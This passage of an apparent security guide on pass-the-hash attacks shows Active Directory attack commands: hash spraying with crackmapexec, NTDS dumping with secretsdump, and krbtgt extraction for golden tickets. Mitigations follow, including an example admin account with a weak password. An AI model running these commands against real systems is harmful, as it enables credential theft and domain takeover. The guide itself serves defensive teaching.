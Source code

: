 #### Phase 3: Domain Compromise
```bash
# 6. Test service account across domain
crackmapexec smb 192.168.1.0/24 -u serviceaccount -H servicehash

# 7. Found DC access, dump NTDS
secretsdump.py -hashes :servicehash DOMAIN/serviceaccount@dc.domain.local

# 8. Extract krbtgt hash for golden ticket
grep krbtgt ntds_dump.txt
```

## Pass Attack Mitigations

### Overview
While pass attacks are hard to completely prevent, organizations can implement several strategies to make them significantly more difficult for attackers to execute successfully.

### Limit Account Re-use

#### Avoid Re-using Local Admin Passwords
```bash
# Problem: Same local admin password across multiple systems
# Solution: Use unique passwords for each system

# Implement LAPS (Local Administrator Password Solution)
# - Automatically generates unique passwords for each computer
# - Stores passwords in Active Directory
# - Regularly rotates passwords
# - Provides secure password retrieval for authorized users
```

#### Disable Default Accounts
```bash
# Disable Guest account
net user guest /active:no

# Disable built-in Administrator account (if not needed)
net user administrator /active:no

# Create custom administrative accounts instead
net user customadmin Password123! /add
net localgroup administrators customadmin /add
```

#### Implement Least Privilege
```bash
# Limit who has local administrator rights
# Use principle of least privilege
# Regular audit of administrative group memberships

# PowerShell to audit local admins
Get-LocalGroupMember -Group "Administrators"

# Domain-wide admin audit
Get-ADGroupMember "Domain Admins"
Get-ADGroupMember "Enterprise Admins"
```
